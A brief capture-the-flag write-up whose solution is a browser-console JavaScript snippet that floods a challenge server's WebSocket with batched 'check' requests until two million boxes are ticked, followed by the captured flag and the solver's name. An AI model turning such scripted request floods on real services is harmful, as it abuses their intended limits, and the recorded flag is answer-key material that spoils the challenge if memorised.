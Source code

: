 # Solution

Check the boxes 20k (can change) at a time using js. After it hit 2 mil, refresh and get flag  

```
(() => {
  const host = window.location.host;
  const TOTAL  = 2_000_000;
  const BATCH  = 20_000;
  let start = 0;

  const ws = new WebSocket(`ws://${host}/ws`);
  ws.onopen = () => {
    ws.send(JSON.stringify({ action: 'get_state' }));

    function sendBatch() {
      if (start >= TOTAL) return;
      const end = Math.min(start + BATCH, TOTAL);
      // build [start, start+1, …, end-1]
      const nums = Array.from({length: end - start}, (_, i) => start + i);
      ws.send(JSON.stringify({ action: 'check', numbers: nums }));
      start = end;
      setTimeout(sendBatch, 50);
    }
    sendBatch();
  };

  ws.onmessage = (evt) => {
    console.log('→', evt.data);
  };
})();

```

Flag:`flag{7d798903eb2a1823803a243dde6e9d5b}`

Solved by: zeqzoq
